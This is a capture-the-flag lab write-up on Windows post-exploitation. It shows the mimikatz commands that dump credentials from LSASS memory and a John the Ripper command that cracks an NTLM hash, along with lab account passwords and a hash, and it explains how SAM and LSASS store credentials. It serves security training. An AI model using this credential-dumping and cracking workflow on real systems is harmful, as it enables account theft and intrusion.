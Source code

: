 # [Day24] *Post Exploitation* Learning From The Grinch 

-------------

> Author Razvan Bielz \
> Date: 26 Jan 2022

--------------

## Info

`IP: 10.10.80.120`  

### Accounts

> Administrator:letmein123!  
> emily:1234567890  
> NTLM Hash Emily: 8af326aa4850225b75c592d4ce19ccf5  

--------------

## Steps

1. Open a Poweshell and navigate to the **mimikatz** folder: https://github.com/gentilkiwi/mimikatz
2. Check if you have the appropiate privileges to run the program:  
  `privilege::debug`  
  Response  
  `Privilege '20' OK`  
3. Dump the passwords from the LSASS memory using **sekurlsa** module with the **logonpasswords** function  
  `sekurlsa::logonpasswords`
4. Find emily hashes
5. Echo NTLM hash to file
6. Use JohnTheRipper to crack the hash:  
  `john --format=NT -w=/usr/share/wordlists/rockyou.txt 24-hash.txt`

--------------

## Flags

--------------

## What have we learned?

- Understand post exploitation
- Understand how passwords are stored on Windows
  - Windows stores various credentials in the Security Accounts Manager (SAM) database. Commonly, credentials such as user passwords are stored as hashes within the SAM database.
  - The two most common hashes stored in the SAM database are:
    - LAN Manager (LM) - this hash is the oldest form of password storage used by Windows that are kept around for legacy systems. The algorithm used to create this hash utilizes a limited character set as input, so it's possible to try all combinations of letters and numbers to retrieve the original hash.
    - NT LAN Manager (NTLM) - Modern Windows systems use this hashing algorithm to store passwords.
  - When a user logs onto a local Windows machine, the Local Security Authority Subsystem Service (LSASS) process retrieves the user's credentials from the SAM database. It compares this against the hashed form of the user's password. If the hash of the password entered by the user matches the hash of the password stored in the SAM database, then the user can successfully log on.
  - Once this user successfully logs on, the LSASS process stores the user's credentials in memory. This is designed out of convenience; when users access other resources, they don't need to enter their credentials constantly, but the LSASS process uses the credentials stored in memory for various actions.
- Dump passwords from LSASS process on Windows
- Crack Password Hashes